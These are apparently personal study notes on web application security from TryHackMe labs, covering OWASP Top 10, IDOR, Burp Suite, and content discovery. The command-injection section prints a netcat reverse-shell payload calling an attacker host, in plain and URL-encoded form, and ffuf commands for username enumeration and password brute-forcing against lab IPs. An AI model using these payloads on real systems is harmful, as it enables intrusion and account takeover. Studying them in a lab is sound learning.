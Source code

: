 (THB: if you cannot see a website )
```
cat /etc/systemd/resolved.conf
DNS=machineip
sudo systemctl restart systemd-resolved 
```

### Security headers: 
HTTP headers that improve the security of the web application 

Check a spesific site: https://securityheaders.com/

#### CSP: Content-Security-Policy: 
- Admins the domains or sources that are considered safe.
- Prevent XSS 

#### HSTS: Strict-Transport-Security
- Ensures the web browser always connects over HTTPS

#### X-Content-Type-Options:
- Prevent sniffing of MIME on a resource?

#### Referrer-Policy:
- Controls information being sent to a destination webserver when a user is redirected. 


Obfuscator - deobfuscator: https://obf-io.deobfuscate.io/


#### Best practices when writing webapplications:
- Avoid client side validation only
- Refrain for adding untrusted libraries 
- Never hardcode secrets 
- Minify and Obfuscate JS code
- For input fields, compare the input to a list of (un)-allowed characters, and validate the request before sending it to the server. 



#### Burp Suite:

Tips:
- Adding a specific scope in Target -> Sitemap (pick a target scope here)
- Set Scope setting to ignore traffic outside of scope
![[Pasted image 20241123212052.png]]

- We can bypass client-side filtering, example we dont get to write certain characters in a input field, by: 1. Sending some valid input, intercepting it, change post parameters to our payload(JS or something) and remember to URL encode. THEN, forward the request. 


#### OWASP top 10:
- **Broken Access Control**: User is able to access pages on a site which he is not meant to see, such as admin pages.
Example IDOR: Insecure Direct object reference, user can get access to resources you would not be able to such as another persons bank account page. 

```
http://10.10.85.194/note.php?note_id=0 , and we can change parameter: http://10.10.85.194/note.php?note_id=1 to view other users pages.
```


-  **Cryptographic Failures**: Communication done with bad implemented cryptography 

-  **Injection**: XXS and such, input fields on site can be exploited. 

-  **Insecure Design**: Stupid design, ex. we can reset another uses password.

-  **Security Misconfiguration**: Bad configuration of the site, ex. unnecessary features enabled, have existing default accounts on the site, not using HTTP security headers, etc..

-  **Vulnerable and Outdated Components**: Not updating software the site depend on, attacker can find the software version and google for exploits. 

-  **Identification and Authentication Failures**: There is possible to get credentials of other users, ex. site allows weak passwords, weak session cookies -> steal another users cookies and become them on the site. 

-  **Software and Data Integrity Failures**: Data of software can be modified because we do not validate integrity.

Site to validate integrity: https://www.srihash.org/ 
Then we can include integrity for this site in our code: 
```
<script src="https://code.jquery.com/jquery-3.6.1.min.js" integrity="sha256-o88AwQnZB+VDvE9tvIXrMQaPlFFSUTR+nldQm1LuPXQ=" crossorigin="anonymous"></script>

```

-  **Security Logging & Monitoring Failures**: Services not logging activity on their application

-  **Server-Side Request Forgery (SSRF)**: Attacker can get the web application to send requests on their behalf.  

#### Command injection:

It can be hard to validate that a parameter on a web application in vulnerable to Command injection. 

Ex. THM Shell room:
We get info that the POST parameter "file" is vulnerable. 

file=hello.txt   - is a valid command
file=whoami   - is not a valid command 

Combining them works:
```
file=hello.txt;whoami  - is valid, and prints the user 
```

If we want to inject a shell, it can be hard to know which shell and how to inject it. What worked in this case was discovering that the user used: `\usr\sbin\nologin` as its shell, and after some reading, this results in a **struggle to spawn interactive shell sessions**. 

Q: Interactive shell vs non interactive shell?

What worked in this case:
```
Use this shell, and URL encode it:

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

URL encoded:
rm+-f+/tmp/f%3b+mkfifo+/tmp/f%3b+cat+/tmp/f+|+/bin/sh+-i+2>%261+|+nc+10.10.211.62+443+>/tmp/f

The whole POST parameter: 
file=hello.txt; rm+-f+/tmp/f%3b+mkfifo+/tmp/f%3b+cat+/tmp/f+|+/bin/sh+-i+2>%261+|+nc+10.10.211.62+443+>/tmp/f;

```


#### IDOR (Insecure Direct Object Reference) vulnerability
"Client is can change parameters to get access to other accounts in the application"

If you for example get the userid of another user, you can change userid in your own browser to theirs, hence getting access to their account  

Parameters (such as userid) inputs may be hashed(Most of the time) or encoded, to make it harder for users to tamper with it.  Such parameters could be found in the url (most likely not),  in a .JS file, or as a request to some API. 

Tools: Network tab i browser, burp suite. 


#### Content discovery:
"Finding stuff on web application we are not intended to find"
- Pages or portals for staff 
- Old sites no longer in use 
- Config files 
- Admin panels 
- etc 

**Manual method:**
- Robots.txt and sitemap.txt: files that define what pages search engines are allowed to find.
- HTTP headers 
- Source code 

**OSINT:**
- Google dorking: seach using keywords as: `site: , inurl:, filetype: ..` Check out: ""
- wappalyzer: https://www.wappalyzer.com/ - extention that allowes us to identify how the application is built. 
- wayback machine: https://web.archive.org/ - Check out previous versions of the site
- s3 buckets: Service that lets someone host files and static sites, might leave some low hanging fruit: `http(s)://{name}.s3.amazonaws.com`.  

Automated:
- **dirbuster**
- **gobuster**
- **ffuf**:

Example using ffuf with a wordlist to find virtual hosts:
``` bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.39.180
```

note: "Subdomains are not always hosted publically with an accessible DNS result, example development versions of a page. DNS record could be kept on a private DNS server or something, which maps domain names to ip addresses. A webserver can host multiple websites, and when a website is requested from a client, the server knows which site to respond with based on the **host header**. In the above example, we send multiple requests to an ip, and change the host header for each request. This way, we can discover hidden subdomains"

Example ffuf for finding valid usersnames on a site:
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.203.202/customers/signup -mr "username already exists"
```

Example ffuf brute forcing the passwords of the users. 
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.203.202/customers/login -fc 200
```

#### Subdomain discovery 
- **Sublister:** python tool which uses osint to find subdomains - https://github.com/aboul3la/Sublist3r
- **dnsrecon:** Tool which brute force possible DNS 
- **Google dorking:**  `site:*.domain.com -site: www.domain.com` Insert the domain you are after.
- **crt.sh:** https://crt.sh/ 


